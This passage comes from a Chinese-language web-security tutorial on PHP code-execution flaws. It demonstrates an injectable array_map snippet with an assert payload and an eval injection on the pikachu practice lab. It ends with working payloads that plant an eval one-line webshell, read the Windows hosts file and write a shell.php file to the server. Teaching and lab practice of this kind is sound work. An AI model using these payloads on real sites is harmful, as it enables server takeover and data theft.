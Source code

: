### 3.1.4. array_map函数

该函数是为数组的每个元素应用回调函数。

```php
<?php
highlight_file(__FILE__);
$a = $_GET['a'];
$b = $_GET['b'];
$array[0] = $b;
$c = array_map($a,$array);
?>
构建的payload
?a=assert&b=phpinfo();
```

### 3.1.5. 总结

这里和命令执行一样，涉及的函数会很多，可以自学百度搜索学习，或者在实际情况中遇到后，在搜索也行。

## 3.2. 代码执行案例

### 3.2.1. pikachu靶场

该案例我们使用pikachu靶场来做演示

#### 3.2.1.1. 开始测试

这里我们可以根据提示可以看到，让我们提交一个我们喜欢的字符串。我们这里随便输入一些，发现返回“你喜欢的字符还挺奇怪的！”

![image-20230413144945304](https://s2.loli.net/2023/04/13/VIfecqBOk5Db9nX.png)

#### 3.2.1.2. 代码分析

从代码中能够看到，是把用户提到的请求内容，直接使用eval函数去执行，也就是说当函数执行的时候若报错了，那么就会直接if语句中的内容。那么当没有报错的时候就会把代码进行执行。

![image-20230413144954017](https://s2.loli.net/2023/04/13/IdolUb4eHZgGhNx.png)

#### 3.2.1.3. 尝试代码执行

这里我们输入一个phpinfo();，提交执行，看看效果，可以看到能够PHP代码被执行了，并且返回了相应的结果到前端。

![image-20230413145001129](https://s2.loli.net/2023/04/13/BiIeLAQRS7qk4ZU.png)

## 3.3. 代码执行漏洞利用

[借鉴](https://www.ngui.cc/article/show-519518.html?action=onClick)

### 3.3.1. 利用方式

```php
?txt=@eval($_POST['cmd']);   一句话木马
?txt=print(_FILE_);           获取当前绝对路径
?txt=var_dump(file_get_contents('c:\\windows\system32\drivers\etc\hosts'));  读取文件
?txt=var_dump(file_put_contents($_POST[1],$POST[2]));
1=shell.php&2=<?php phpinfo()?>   写shell
```
